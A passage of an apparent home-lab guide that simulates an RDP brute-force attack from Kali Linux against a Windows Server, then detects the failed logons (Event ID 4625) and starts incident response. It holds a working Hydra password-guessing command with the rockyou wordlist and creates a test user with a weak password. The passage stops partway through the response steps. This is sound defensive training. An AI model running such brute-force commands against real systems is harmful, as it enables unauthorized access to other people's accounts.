 ### Network:
- Ensure **both machines are on the same network**
- Verify **RDP (TCP/3389)** is open on Windows Server

---

## Preparation Steps

### On **Windows Server**:
1. **Enable RDP**:  
   `System Properties → Remote → Enable Remote Desktop`

2. **Allow RDP in Firewall**:  
   `Windows Defender Firewall → Advanced Settings → Inbound Rules → Remote Desktop (TCP-In) → Enable`

3. **Create Test User**:
   ```powershell
   net user <username> Password123 /add
   ```
Open Event Viewer:
Windows Logs → Security
Filter for Event ID 4625 (Failed Logon)



### Simulate the Attack

1. On Kali Linux:
Install Hydra (if not installed):

```
sudo apt update && sudo apt install hydra
```
Prepare Wordlist: Use the existing list or create a custom one, e.g.: /usr/share/wordlists/rockyou.txt
2. Run this command on Kali Linux:
```
hydra -t 4 -V -f -l <username> -P /usr/share/wordlists/rockyou.txt rdp://<Windows_Server_IP>
```
Replace <Windows_Server_IP> with actual IP of Windows Server

### Visualize the Alert in Event Viewer
1. On Windows Server:
Open `Event Viewer → Windows Logs → Security`

2. Look for Event ID 4625 with:

Logon Type: 10 (RemoteInteractive / RDP)

Failure Reason: "Unknown user name or bad password"

Caller IP Address: IP of Kali machine



### Incident Response Steps
1. Identify Repeated Failed Logons:
- Spot Event ID 4625 from same IP
2. Correlate IP Address:
- Confirm repeated failures from attacker’s IP
3. Lock the User Account (Optional):
```
net user attackerlab /active:no
```
4. Block Attacker IP:
